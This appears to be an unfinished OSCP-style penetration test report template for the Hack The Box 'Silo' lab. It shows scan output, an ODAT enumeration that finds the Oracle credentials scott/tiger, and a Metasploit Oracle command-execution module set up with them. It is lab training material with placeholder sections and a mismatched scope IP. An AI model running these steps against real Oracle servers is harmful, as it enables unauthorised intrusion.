


# Pentesting Report - Silo

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.68

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

An initial scan on the host shows us some services like http, rpc, smb, and Oracle TNS:

```
# Nmap 7.91 scan initiated Sat Jan 30 16:16:49 2021 as: nmap -sC -sV -oA nmap/silo-initial 10.10.10.82
Nmap scan report for 10.10.10.82
Host is up (0.13s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5m47s, deviation: 0s, median: 5m46s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-30T15:25:08
|_  start_date: 2021-01-30T15:19:47

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 30 16:19:27 2021 -- 1 IP address (1 host up) scanned in 158.44 seconds
```
# Webserver

First we take a look at the webserver. The webserver shows us only a default IIS website:



We use gobuster and don't find anything usefull:

```
gobuster dir -u http://10.10.10.82 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster/80-raft-dir-medium -x asp,aspx,html,txt
===============================================================
Gobuster v3.0.1                                                                    
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.82
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     asp,aspx,html,txt
[+] Timeout:        10s      
===============================================================
2021/01/30 16:19:53 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
Progress: 133 / 30001 (0.44%)                                                      
/Aspnet_client (Status: 301)
/aspnet_Client (Status: 301)                                                       
/ASPNET_CLIENT (Status: 301)                                                                                                                                           
[ERROR] 2021/01/30 16:33:02 [!] parse http://10.10.10.82/error_log: net/url: invalid control character in URL                                                          
===============================================================
2021/01/30 16:35:35 Finished                                                                                                                                           
===============================================================                                 
```

This is also true for dirb:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/silo/dirb]
└─$ dirb http://10.10.10.82             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Jan 30 16:37:10 2021
URL_BASE: http://10.10.10.82/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.82/ ----
==> DIRECTORY: http://10.10.10.82/aspnet_client/                                                                                                                      
                                                                                                                                                                      
---- Entering directory: http://10.10.10.82/aspnet_client/ ----
==> DIRECTORY: http://10.10.10.82/aspnet_client/system_web/                                                                                                           
                                                                                                                                                                      
---- Entering directory: http://10.10.10.82/aspnet_client/system_web/ ----
                                                                                                                                                                      
-----------------
END_TIME: Sat Jan 30 16:51:58 2021
DOWNLOADED: 13836 - FOUND: 0
```

We install ODAT following the instructions from the website (https://github.com/quentinhardy/odat)

```
https://github.com/quentinhardy/odat
```

Using the instructions on this page (https://github.com/quentinhardy/odat/wiki) we scan the Oracle database:

```
https://github.com/quentinhardy/odat/wiki
```




```
└─$ python3 ./odat.py all -s 10.10.10.82 -p 1521

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Searching valid SIDs
[2.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...
[+] 'XEXDB' is a valid SID. Continue...                               
100% |########################################################################################| Time: 00:01:07 
[2.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |########################################################################################| Time: 00:00:01 
[2.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...
100% |########################################################################################| Time: 00:00:40 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB

[3] (10.10.10.82:1521): Searching valid accounts on the XE SID
The login cis has already been tested at least once. What do you want to do:
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[+] Valid credentials found: scott/tiger. Continue...
100% |########################################################################################| Time: 00:05:13 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger
```

```
msf6 auxiliary(sqli/oracle/jvm_os_code_10g) > options

Module options (auxiliary/sqli/oracle/jvm_os_code_10g):

   Name    Current Setting                                    Required  Description
   ----    ---------------                                    --------  -----------
   CMD     echo metasploit >> %SYSTEMDRIVE%\\unbreakable.txt  no        CMD to execute.
   DBPASS  TIGER                                              yes       The password to authenticate with.
   DBUSER  SCOTT                                              yes       The username to authenticate with.
   RHOST   10.10.10.82                                        yes       The Oracle host.
   RPORT   1521                                               yes       The TNS port.
   SID     ORCL                                               yes       The sid to authenticate with.

```


**Vulnerability Fix:**

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
